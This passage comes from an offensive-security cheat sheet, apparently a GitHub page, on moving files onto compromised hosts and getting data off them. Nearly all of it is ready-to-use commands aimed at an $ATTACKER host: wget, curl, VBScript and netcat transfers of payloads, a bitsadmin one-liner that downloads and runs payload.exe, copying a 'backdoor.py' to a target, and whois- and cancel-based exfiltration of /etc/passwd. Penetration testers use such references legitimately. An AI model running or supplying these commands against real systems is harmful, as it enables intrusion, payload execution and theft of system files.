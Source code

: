 #### HTTP: VBScript

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```text
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

#### HTTP: Linux

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

#### NetCat

```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

### Whois Data Exfiltration

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

### Cancel Data Exfiltration

```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```
